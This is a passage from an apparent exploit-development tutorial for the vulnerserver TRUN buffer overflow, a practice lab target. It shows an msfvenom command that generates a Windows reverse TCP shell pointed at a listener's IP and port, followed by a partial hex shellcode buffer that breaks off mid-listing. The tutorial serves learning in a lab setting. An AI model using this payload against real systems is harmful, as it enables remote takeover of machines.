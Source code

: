 ![image-20200408214017171](/assets/images/vulnserver/TRUN/image-20200408214017171.png)

Here we can see the stack in immunity If there were bad bytes they would be absent from the stack or be garbled.  

Next on to the shellcode!

### Shellcode

At this point we have all the knowledge we need to pop a shell!

For simplicity sake we are going to use msfvenom to generate our shellcode. To do this run the following command ( replacing the LHOST and LPORT with your ip & listening port respectivly)

```python
sudo msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.64 LPORT=5555 -b '\x00' -f c
```

This command tells msfvenom to generate a windows reverse TCP shell without any null bytes.

This will give us the shellcode in Python2 style format. To get this to work in Python3 add 'b' to the front' :

```python
    buf =  b""
    buf += b"\xb8\xe2\x5c\x98\xde\xdb\xcb\xd9\x74\x24\xf4\x5a\x33"
    buf += b"\xc9\xb1\x56\x31\x42\x13\x03\x42\x13\x83\xea\x1e\xbe"
    buf += b"\x6d\x22\x36\xbd\x8e\xdb\xc6\xa2\x07\x3e\xf7\xe2\x7c"
    buf += b"\x4a\xa7\xd2\xf7\x1e\x4b\x98\x5a\x8b\xd8\xec\x72\xbc"
    buf += b"\x69\x5a\xa5\xf3\x6a\xf7\x95\x92\xe8\x0a\xca\x74\xd1"
    buf += b"\xc4\x1f\x74\x16\x38\xed\x24\xcf\x36\x40\xd9\x64\x02"
    buf += b"\x59\x52\x36\x82\xd9\x87\x8e\xa5\xc8\x19\x85\xff\xca"
    buf += b"\x98\x4a\x74\x43\x83\x8f\xb1\x1d\x38\x7b\x4d\x9c\xe8"
    buf += b"\xb2\xae\x33\xd5\x7b\x5d\x4d\x11\xbb\xbe\x38\x6b\xb8"
    buf += b"\x43\x3b\xa8\xc3\x9f\xce\x2b\x63\x6b\x68\x90\x92\xb8"
    buf += b"\xef\x53\x98\x75\x7b\x3b\xbc\x88\xa8\x37\xb8\x01\x4f"
    buf += b"\x98\x49\x51\x74\x3c\x12\x01\x15\x65\xfe\xe4\x2a\x75"
```